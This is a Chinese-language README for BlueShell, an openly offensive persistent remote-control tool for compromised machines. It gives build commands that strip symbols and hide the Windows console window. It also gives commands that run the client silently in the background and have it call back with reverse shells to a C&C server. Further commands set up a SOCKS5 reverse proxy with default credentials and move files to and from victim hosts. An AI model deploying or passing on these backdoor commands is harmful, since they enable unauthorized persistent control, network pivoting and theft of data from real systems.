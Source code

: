 BlueShell
===
BlueShell是一个跨平台的持续远控工具，拿下靶机后部署BlueShell Client端，Client端会每隔固定时间向C&C Server发起反弹连接尝试，Server启动并连接Client端后，即可实现对靶机的持续控制，目前支持的主要功能有：
+ 循环持续控制
+ 跨平台，支持Linux、Windows、MacOS
+ 交互式Shell反弹（Windows只支持普通反弹Shell）
+ Socks5反弹代理
+ 文件上传、下载
+ TLS通信加密

编译
---

### Linux and MacOS
生成bsClient
```shell script
go get github.com/armon/go-socks5
go get github.com/creack/pty
go get github.com/hashicorp/yamux

go build --ldflags "-s -w " -o bsClient client.go
```
生成bsServer
```shell script
go get github.com/creack/pty
go get github.com/hashicorp/yamux
go get github.com/djimenez/iconv-go
go get golang.org/x/crypto/ssh/terminal

go build --ldflags "-s -w " -o bsServer server.go
```
### Windows
生成client
```shell script
go get github.com/armon/go-socks5
go get github.com/creack/pty
go get github.com/hashicorp/yamux

go build --ldflags "-s -w -H=windowsgui" -o bsClient.exe client.go
```

用法
---
### Client
在受控靶机上运行bsClient    
#### Windows靶机：    
默认配置模式启动
```shell script
start /b bsClient.exe
```
参数模式启动,-h指定远控端地址，-p远控端监听端口,-t尝试连接远控的间隔秒数
```shell script
start /b bsClient.exe -h 10.0.0.1 -p 443 -t 10
```
#### Linux and MacOS靶机:    
默认配置模式启动
```shell script
nohup bsClient &
```
参数模式启动,-h指定远控端地址，-p指定远控端监听端口
```shell script
nohup bsClient -h 10.0.0.1 -p 443 &
```
### C&C Server
远控端运行bsServer,需要是Linux机器
#### Action:反弹shell
默认启动，远控监听8081端口，执行反弹shell操作
```shell script
./bsServer
```
参数启动，-p指定远控监听443端口，-a指定执行反弹shell操作
```shell script
./bsServer -p 443 -a shell
```
windows靶机的乱码问题解决,-rencode指定靶机的编码类型
```shell script
./bsServer -rencode gb2312
```
#### Action:反弹Socks5代理
默认启动，远控监听8081端口，执行反弹socks操作，socks5的默认监听端口为7777，默认用户名blue，默认密码Blue@2020
```shell script
./bsServer -a socks
```
参数启动，-p指定远控监听443端口，-a指定执行反弹socks操作,-sport指定socks监听的端口为7778，-suser指定socks代理的认证账号，-spass指定socks代理的认证密码
```shell script
./bsServer -p 443 -a socks -sport 7778 -suser socksUser -spass socksPassword
```
#### Action:文件上传下载
上传本地文件到受控靶机，-lpath指定需要上传的本地文件路径，-rdir指定上传到的目录
```shell script
./bsServer -a upload -lpath /tmp/tmp.txt -rdir c:\\
```
从受控靶机下载文件到本地，-rpath指定需要下载的文件地址，-ldir指定存放下载文件的本地路径
```shell script
./bsServer -a upload -rpath c:\\tmp.txt -ldir /tmp
```

参考
---
+ https://github.com/sysdream/hershell
+ https://github.com/creaktive/tsh